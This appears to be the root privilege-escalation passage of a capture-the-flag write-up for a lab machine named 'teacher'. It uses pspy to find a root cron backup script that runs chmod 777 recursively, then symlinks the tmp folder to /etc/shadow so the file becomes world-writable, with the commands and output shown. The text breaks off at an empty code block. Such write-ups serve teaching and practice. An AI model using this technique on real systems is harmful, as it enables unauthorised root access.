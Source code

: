 ## Root
now that we are logged in as giovanni, we can notice a 'work/' directory inside the home folder.  
if we inspect files/subfolders, we can see that one file 'backup_courses.tar.gz' has been created one minute ago.
```
giovanni@teacher:~/work$ ls -ltra
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 courses
drwxr-x--- 4 giovanni giovanni 4096 Nov  4  2018 ..
giovanni@teacher:~/work$ ls -ltra *
tmp:
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
-rwxrwxrwx 1 root     root      256 Dec 23 17:38 backup_courses.tar.gz

courses:
total 12
drwxr-xr-x 2 root     root     4096 Jun 27  2018 algebra
drwxr-xr-x 4 giovanni giovanni 4096 Jun 27  2018 ..
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 .
giovanni@teacher:~/work$ date
Thu Dec 23 17:39:16 CET 2021
```
as we can see 'backup_courses.tar.gz' is owned by root, so we can suppose that there is a cronjob that is running as root and is compressing some diretory into this tar archive.  
now, to discover what this cronjob is about, we can use pspy and see what it takes out:
```
2021/12/23 17:50:01 CMD: UID=0    PID=4678   | /bin/bash /usr/bin/backup.sh
2021/12/23 17:50:01 CMD: UID=0    PID=4679   | tar -czvf tmp/backup_courses.tar.gz courses/algebra
2021/12/23 17:50:01 CMD: UID=0    PID=4680   | gzip
2021/12/23 17:50:01 CMD: UID=0    PID=4681   | /bin/bash /usr/bin/backup.sh
2021/12/23 17:50:01 CMD: UID=0    PID=4682   | tar -xf backup_courses.tar.gz
2021/12/23 17:50:01 CMD: UID=0    PID=4683   | /bin/bash /usr/bin/backup.sh
```
as we can see, there is a cron running as UID=0 (root) and is executing ```/bin/bash /usr/bin/backup.sh```.  
Now, let's open this file and see what this is about:  
```
giovanni@teacher:/dev/shm$ ls -l /usr/bin/backup.sh
-rwxr-xr-x 1 root root 138 Jun 27  2018 /usr/bin/backup.sh
giovanni@teacher:/dev/shm$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
As we can see it is granting 777 permissions to everything under /home/giovanni/work/tmp.  
Now we can trigger this program to error by removing tmp/ folder and replacing it with a symlink to /etc/shadow.  
```
giovanni@teacher:~/work$ ln -s /etc/shadow tmp
giovanni@teacher:~/work$ ls -l
total 4
drwxrwxrwx 3 giovanni giovanni 4096 Jun 27  2018 courses
lrwxrwxrwx 1 giovanni giovanni   11 Dec 23 17:54 tmp -> /etc/shadow
```
Now, we can wait for a minute and get /etc/shadow world writable:
```
```
